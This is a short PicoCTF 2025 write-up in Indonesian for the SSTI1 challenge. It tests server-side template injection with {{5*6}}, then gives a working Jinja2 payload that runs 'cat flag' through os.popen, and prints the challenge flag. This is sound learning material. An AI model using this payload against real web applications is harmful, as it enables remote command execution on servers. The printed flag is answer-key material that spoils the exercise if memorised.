# SSTI1 - PicoCTF 2025
Website: [PicoCTF](https://play.picoctf.org/)

## Description <br>
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

## Step-by-step 
1. Saat instance dilaunch muncul page dimana kita bisa mengupload apapun yang kita ketik 
![alt text](image.png)
2. Lalu saya coba untuk mengetik payload perkalian sederhana ```{{5*6}}``` untuk mengetes hasil dari payload tersebut.
![alt text](image-1.png) 
Ternyata menghasilkan perkalian yang benar
![alt text](image-2.png)
3. Langsung saja saya coba untuk upload payload ini untuk mendapatkan flagnya.
```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}``` 
4. Dan flag nya pun muncul <br>
```picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_dcdca99a}```
![alt text](image-3.png)
